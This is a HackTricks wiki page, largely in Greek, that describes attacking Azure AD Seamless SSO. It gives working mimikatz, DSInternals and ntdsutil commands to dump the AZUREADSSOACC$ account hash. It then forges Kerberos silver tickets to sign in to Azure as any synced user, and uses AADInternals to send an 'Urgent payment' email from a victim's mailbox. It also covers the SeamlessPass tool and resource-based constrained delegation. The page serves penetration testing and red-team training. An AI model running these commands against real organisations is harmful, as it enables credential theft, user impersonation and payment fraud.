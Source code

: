 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Η Seamless Single Sign-On (SSO) του Azure Active Directory (Azure AD Seamless SSO) **συνδέει αυτόματα τους χρήστες όταν βρίσκονται σε εταιρικές συσκευές** που είναι συνδεδεμένες στο εταιρικό σας δίκτυο. Όταν είναι ενεργοποιημένο, **οι χρήστες δεν χρειάζεται να πληκτρολογούν τους κωδικούς πρόσβασής τους για να συνδεθούν στο Azure AD**, και συνήθως, ούτε καν να πληκτρολογούν τα ονόματα χρήστη τους. Αυτή η δυνατότητα παρέχει στους χρήστες σας εύκολη πρόσβαση στις εφαρμογές σας που βασίζονται στο cloud χωρίς να χρειάζονται επιπλέον τοπικά στοιχεία.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Βασικά, η Seamless SSO του Azure AD **συνδέει τους χρήστες** όταν βρίσκονται **σε υπολογιστή που είναι συνδεδεμένος σε τοπικό τομέα**.

Υποστηρίζεται τόσο από [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) όσο και από [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Η SSO επιφάνειας εργασίας χρησιμοποιεί **Kerberos** για την αυθεντικοποίηση. Όταν ρυθμιστεί, το Azure AD Connect δημιουργεί έναν **λογαριασμό υπολογιστή που ονομάζεται AZUREADSSOACC`$`** στο τοπικό AD. Ο κωδικός πρόσβασης του λογαριασμού `AZUREADSSOACC$` **αποστέλλεται ως απλό κείμενο στο Azure AD** κατά τη διάρκεια της ρύθμισης.

Οι **εισιτήριοι Kerberos** είναι **κρυπτογραφημένοι** χρησιμοποιώντας το **NTHash (MD4)** του κωδικού πρόσβασης και το Azure AD χρησιμοποιεί τον αποσταλμένο κωδικό πρόσβασης για να αποκρυπτογραφήσει τους εισητήριους.

**Azure AD** εκθέτει ένα **endpoint** (https://autologon.microsoftazuread-sso.com) που δέχεται **εισιτήρια** Kerberos. Ο περιηγητής της μηχανής που είναι συνδεδεμένη σε τομέα προωθεί τα εισητήρια σε αυτό το endpoint για SSO.

### On-prem -> cloud

Ο **κωδικός πρόσβασης** του χρήστη **`AZUREADSSOACC$` ποτέ δεν αλλάζει**. Επομένως, ένας διαχειριστής τομέα θα μπορούσε να παραβιάσει τον **hash αυτού του λογαριασμού**, και στη συνέχεια να τον χρησιμοποιήσει για να **δημιουργήσει ασημένια εισιτήρια** για να συνδεθεί στο Azure με **οποιονδήποτε τοπικό χρήστη συγχρονισμένο**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Με το hash μπορείτε τώρα **να δημιουργήσετε ασημένια εισιτήρια**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Για να χρησιμοποιήσετε το silver ticket, θα πρέπει να εκτελέσετε τα εξής βήματα:

1. **Εκκίνηση του Προγράμματος Περιήγησης:** Πρέπει να εκκινήσετε τον Mozilla Firefox.
2. **Ρύθμιση του Προγράμματος Περιήγησης:**
* Μεταβείτε στο **`about:config`**.
* Ρυθμίστε την προτίμηση για [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) στις καθορισμένες [τιμές](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Πρόσβαση στην Ιστοσελίδα Εφαρμογής:**
* Επισκεφθείτε μια διαδικτυακή εφαρμογή που είναι ενσωματωμένη με το AAD domain της οργάνωσης. Ένα κοινό παράδειγμα είναι το [Office 365](https://portal.office.com/).
4. **Διαδικασία Αυθεντικοποίησης:**
* Στην οθόνη σύνδεσης, πρέπει να εισαχθεί το όνομα χρήστη, αφήνοντας το πεδίο κωδικού πρόσβασης κενό.
* Για να προχωρήσετε, πατήστε είτε TAB είτε ENTER.

{% hint style="success" %}
Αυτό δεν παρακάμπτει το MFA αν είναι ενεργοποιημένο
{% endhint %}

#### Επιλογή 2 χωρίς dcsync - SeamlessPass

Είναι επίσης δυνατό να εκτελέσετε αυτήν την επίθεση **χωρίς επίθεση dcsync** για να είστε πιο διακριτικοί, όπως [εξηγείται σε αυτήν την ανάρτηση ιστολογίου](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Για αυτό χρειάζεστε μόνο ένα από τα εξής:

* **TGT ενός συμβιβασμένου χρήστη:** Ακόμα και αν δεν έχετε ένα, αλλά ο χρήστης έχει συμβιβαστεί, μπορείτε να αποκτήσετε ένα χρησιμοποιώντας το κόλπο ψεύτικης TGT αντιπροσώπευσης που έχει υλοποιηθεί σε πολλά εργαλεία όπως το [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) και το [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Χρυσό Ticket**: Εάν έχετε το κλειδί KRBTGT, μπορείτε να δημιουργήσετε το TGT που χρειάζεστε για τον επιτιθέμενο χρήστη.
* **NTLM hash ή AES key ενός συμβιβασμένου χρήστη:** Το SeamlessPass θα επικοινωνήσει με τον ελεγκτή τομέα με αυτές τις πληροφορίες για να δημιουργήσει το TGT.
* **NTLM hash ή AES key του λογαριασμού AZUREADSSOACC$:** Με αυτές τις πληροφορίες και τον Αναγνωριστικό Ασφαλείας (SID) του χρήστη που επιτίθεστε, είναι δυνατό να δημιουργήσετε ένα service ticket και να αυθεντικοποιηθείτε με το cloud (όπως εκτελέστηκε στην προηγούμενη μέθοδο).

Τέλος, με το TGT είναι δυνατό να χρησιμοποιήσετε το εργαλείο [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) με:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Περισσότερες πληροφορίες για να ρυθμίσετε το Firefox να λειτουργεί με seamless SSO μπορείτε να [**βρείτε σε αυτή την ανάρτηση blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Δημιουργία Kerberos tickets για χρήστες μόνο στο cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Εάν οι διαχειριστές του Active Directory έχουν πρόσβαση στο Azure AD Connect, μπορούν να **ορίσουν SID για οποιονδήποτε χρήστη cloud**. Με αυτόν τον τρόπο, τα Kerberos **tickets** μπορούν να **δημιουργηθούν και για χρήστες μόνο στο cloud**. Η μόνη απαίτηση είναι ότι το SID είναι ένα κατάλληλο [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Η αλλαγή του SID των χρηστών διαχειριστών μόνο στο cloud είναι τώρα **μπλοκαρισμένη από τη Microsoft**.\
Για πληροφορίες δείτε [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud μέσω Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Οποιοσδήποτε μπορεί να διαχειριστεί λογαριασμούς υπολογιστών (`AZUREADSSOACC$`) στο κοντέινερ ή OU όπου βρίσκεται αυτός ο λογαριασμός, μπορεί να **ρυθμίσει μια περιορισμένη ανάθεση πόρων πάνω από τον λογαριασμό και να έχει πρόσβαση σε αυτόν**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Αναφορές

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Είμαι στο cloud σας, διαβάζοντας τα email όλων - hacking Azure AD μέσω Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
